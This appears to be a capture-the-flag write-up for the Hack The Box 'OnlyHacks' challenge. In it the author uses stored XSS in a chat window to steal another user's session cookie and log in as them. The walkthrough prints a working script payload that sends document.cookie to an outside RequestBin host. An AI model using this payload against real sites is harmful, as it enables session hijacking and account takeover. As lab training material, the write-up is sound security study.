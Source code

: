 In this i'm going to be attempting the only hacks challenge which was posted for valentines day on hack the box.
It's diffculty is very easy.
Our task is to find and submit a flag.

We begin by getting our host address.
![alt text](images/onlyhacks_4.png)

Now on entering this into a browser we are taken to this site.
![alt text](images/onlyhacks_1.png)

Entering values and trying to log in didn't take me anywhere so i'm going to try to signup.
![alt text](images/onlyhacks_2.png)
But when i enter this in it says user already exists.
![alt text](images/onlyhacks_3.png)
I tried repeating the sign in with a profile picture( i hadn't used one ealier), and now the sign in works.
We are now taken to this site...
![alt text](images/onlyhacks_5.png)

On going through the site i see a chat window for chatting with a user called Renata.
![alt text](images/onlyhacks_6.png)

I will try to type some messages.
![alt text](images/onlyhacks_7.png)
I tried tying some random words( wierd i know)..but as expected it didn't lead to anything. The responses are all sent in a same cycle.
Well...I was wrong about the responses being generated in a repeated cycle. There is some AI being used to generate the responses.

THe chat accepts html so if i try to send something like...
![alt text](images/onlyhacks_8.png)
That was  < u >hi< u >

Now we will create a request bin and get the request by sending the address on the request bin site throught the chatbox we have on the only hacks site. 
We use < script > to embed our "script" which is executed when a user visits the page embedded.
< script >document.location="http://requestbin.whapi.cloud/1688xb21?c" + document.cookie< /script >
here we use the document.location and specify where to be redirected when user clicks...then on clicking the cookies of that user are taken and added to the end of that url(due to ?c and the +document.cookie).
On visiting the site RequestBin records a log of that. That log will have the site url therefore the end cookie data too.
![alt text](images/onlyhacks_10.png)
As we can see a log is made... on close inspection towards the end of the url lies the cookie we need.
![alt text](images/onlyhacks_11.png)

This cookie can be replac the cookie in our only hacks tab.
Here is the value we have to replace...
![alt text](images/onlyhacks_12.png)

On replacing and reloading the page we get to see this...
![alt text](images/onlyhacks_13.png)
We are now logged in as Renata. We notice another person in the chat.
On opening that we get the flag needed.
![alt text](images/onlyhacks_14.png)